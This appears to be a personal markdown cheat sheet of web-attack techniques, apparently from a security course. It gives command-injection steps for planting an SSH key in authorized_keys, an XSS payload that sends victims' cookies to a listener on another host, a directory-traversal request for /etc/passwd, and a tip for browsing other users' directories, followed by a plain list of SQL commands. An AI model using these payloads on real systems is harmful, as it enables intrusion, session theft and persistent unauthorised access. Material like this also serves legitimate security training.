 
# uploading ssh key
```
; mkdir [home directory]/.ssh (on webpage)
ls -la ../../.ssh/ [on box]
ssh-keygen -t rsa -b 4096 [on box to generate new ssh keys with no passphrases]
cat ls -la ../../.ssh/id_rsa.pub (copy the entire file)
; echo "(what you copied from ssh)" > [home directory]/.ssh/authorized_keys (on webpage)
;cat [home directory]/.ssh/authorized_keys (make sure it works)
ssh -i ~/.ssh/id_rsa [user]@[ip] (on host)
```

# How to get cookies from a message box
```
on lin-ops:
cd /home
python3 -m http.server

on website:
<script>document.location="http://10.50.27.207/Cookie_Stealer1.php?username=" + document.cookie;</script>
```
# How to traverse directories on websites
```
if it looks like the path below, make sure to put the commands in the books= portion to traverse through
http://127.0.0.1:5432/books_pick.php?book=web
example http://127.0.0.1:5432/books_pick.php?book=../../../../etc/passwd
```
# going to other peoples directories
```
after log in just cd ../ to see other users available
```

# SQL
S tructured Q uery L anguage - ANSI Standard
# Standard Commands
```
SELECT: Extracts data from a database
UNION: Used to combine the result-set of two or more SELECT statements
USE: Selects the DB to use
UPDATE: Updates data in a database
DELETE: Deletes data from a database
INSERT INTO: Inserts new data into a database
CREATE DATABASE: Creates a new database
ALTER DATABASE: Modifies a database
CREATE TABLE: Creates a new table
ALTER TABLE: Modifies a table
DROP TABLE: Deletes a table
CREATE INDEX: Creates an index (search key)
DROP INDEX: Deletes an index
```
https://www.w3schools.com/SQL/sql_syntax.asp
# sql commands
```
mysql
```